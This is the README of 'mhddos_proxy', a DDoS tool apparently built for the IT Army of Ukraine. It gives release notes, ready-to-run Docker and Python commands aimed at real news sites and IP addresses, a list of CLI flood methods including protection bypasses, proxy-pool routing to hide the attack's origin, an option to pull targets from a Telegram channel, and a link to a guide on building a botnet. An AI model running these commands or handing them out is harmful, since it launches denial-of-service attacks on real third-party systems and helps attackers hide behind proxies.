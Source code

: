 ## DDoS Tool for IT Army of Ukraine 

- Built-in proxy server database to attack from a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different DDoS methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent Release Notes

Update versions for | Mac | Linux | Android | Docker (UA only so far): https://telegra.ph/Onovlennya-mhddos-proxy-04-16

- **18.05.2022**
  - Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).

- **15.05.2022**
  - Completely updated the asynchronous version, which ensures maximum efficiency and minimum load on the system
  - Efficient operation with larger values of the `-t` parameter (up to 10k) without the risk of "freezing" the whole system
  - A brand-new algorithm for load balancing between targets in order to achieve maximum attack efficiency
  - Attack types `RGET`, `RHEAD`, `RHEX` and `STOMP` added

<details>
  <summary>📜 Earlier Releases</summary>

- **23.04.2022** 
  - The `--vpn` option has been changed - now your IP/VPN is being used **together** with the proxy, rather than instead. To restore the previous behavior, use `--vpn 100`
- **20.04.2022**
  - Significantly improved the system resources utilization for the best attack efficiency
  - Added `--udp-threads` option in order to control the intensity of UDP attacks (default 1)
- **18.04.2022** 
  - In the `--debug` mode, total statistics for all targets have been added
  - More proxy servers have been added
- **13.04.2022** 
  - Added the option to disable targets and add comments to the configuration file; now lines starting with '#' are ignored
  - Fixed an issue of crashing the script after a long run and other bugs while changing loops
  - Fixed color display on Windows terminal (without editing the registry)
  - In case of no targets available, the script will wait, instead of stopping completely
- **09.04.2022** New proxy utilization system; as of now everyone gets ~ 200 proxies to attack from a total pool of 10,000+. The `-p` (` --period`) and `--proxy-timeout` parameters are deprecated
- **04.04.2022** Added the ability to use your own proxy list for the attack: [instructions] (#custom-proxies)
- **03.04.2022** Fixed 'Too many open files' bug (thanks to @kobzar-darmogray and @euclid-catoptrics)
- **02.04.2022** Working threads are being reused rather than restarted for each cycle. Ctrl-C has also been fixed
- **01.04.2022** Updated CFB attack method to synchronize with MHDDoS
- **31.03.2022** Added some reliable DNS servers instead of system ones for name resolution (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Added support for the local configuration file (thanks to @kobzar-darmogray)
- **28.03.2022** Table output implemented `--table` (thanks to @alexneo2003)
- **27.03.2022**
    - Implemented DBG, BOMB (thanks to @drew-kun for PR), and KILLER methods to synchronize with the original MHDDoS
- **26.03.2022**
    - Launch a number of selected attacks instead of random ones
    - Reduced RAM utilization on a large number of targets; now only the `-t` parameter affects RAM
    - Added DNS caching and correct handling of resolving problems
- **25.03.2022** Added VPN mode instead of proxy (`--vpn` flag)
- **25.03.2022** 
  - MHDDoS has been put in the repository for overall control over development
</details>

### 💽 Installation - [instructions are here](/docs/installation.md)

### 🕹 Running (different options for targets are given)

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (If it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Settings (check out more in the [CLI](#cli) section)

**All options can be combined**, you can specify them either before and after the list of targets

Change the workload: `-t XXXX`; the maximum number of simultaneously open connections; if the machine has one CPU, the default is 1000, if more than one, then is 7500.

***For Linux, add `sudo` in front of the `docker` command***

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

To monitor information about the attack progress, add the `--table` flag for the table-style display, `--debug` for the text

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru

To attack targets provided by https://t.me/itarmyofukraine2022 add the `--itarmy` option  

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table --itarmy

### 📌 New automatic proxy finder for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Community (mostly in Ukrainian)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Create a botnet of 30+ free and standalone Linux servers (even with PC is off)](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help            show this help message and exit
      -c, --config URL|path URL or local path to file with attack targets
      -t, --threads 2000    Total number of threads to run (default is CPU * 1000)
      --copies 1            Number of copies to run (default is 1)
      --rpc RPC             How many requests to send on a single proxy connection (default is 2000)
      --table               Print log as table
      --debug               Print log as text
      --vpn [USE_MY_IP]     Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --http-methods        {DYN,PPS,BYPASS,OVH,TREX,NULL,GET,DOWNLOADER,CFB,RHEAD,AVB,EVEN,SLOW,STRESS,XMLRPC,RGET,HEAD,APACHE,COOKIE,STOMP,RHEX,POST} [{DYN,PPS,BYPASS,OVH,TREX,NULL,GET,DOWNLOADER,CFB,RHEAD,AVB,EVEN,SLOW,STRESS,XMLRPC,RGET,HEAD,APACHE,COOKIE,STOMP,RHEX,POST} ...]
                            List of HTTP(s) attack methods to use. Default is GET + POST|STRESS
      --proxies URL|path    URL or local path(ex. proxies.txt) to file with proxies to use 
      --itarmy              Attack targets from https://t.me/itarmyofukraine2022  
      --scheduler-initial-capacity SCHEDULER_INITIAL_CAPACITY
                            How many tasks per target to initialize on launch
      --scheduler-fork-scale SCHEDULER_FORK_SCALE
                            How many tasks to fork on successful connect to the target
      --scheduler-failure-delay SCHEDULER_FAILURE_DELAY
                            Time delay before re-launching failed tasks (seconds)
      --lang {EN,UA}        Interface and report language

### Custom proxies

#### File format:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is being set.
For example, for a public proxy: `protocol=socks4 IP=114.231.123.38 PORT=3065` the format will be fhe following:
```shell
socks4://114.231.123.38:3065
```
and for private one: `protocol=socks4 IP=114.231.123.38 PORT=3065 username=isdfuser password=ashd1spass`
format can be one of the following:
```shell
socks4://114.231.123.38:3065:isdfuser:ashd1spass
socks4://isdfuser:ashd1spass@IP:PORT
```

**URL of the remote file for Python and Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    python3 runner.py --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)

### Localization

As of now, the application supports 2 languages: English and Ukrainian. 
The default language set by the command line is Ukrainian, but it is likely to be changed as soon as we expand our community to other countries.

There are two ways to set the language:

### 1. Using command line
    python3 runner.py --lang EN https://ria.ru
    python3 runner.py --lang UA https://ria.ru

Most likely, this is the way most Python users prefer to change it. 

### 2. Using environment variable
    export MHDDOS_LANG=EN
    python3 runner.py https://ria.ru

An environment variable is easy to pass into the Docker container with the `-e` option

    docker run -e MHDDOS_LANG=UA -it --rm --log-driver none --name multidd --pull always karboduck/multidd
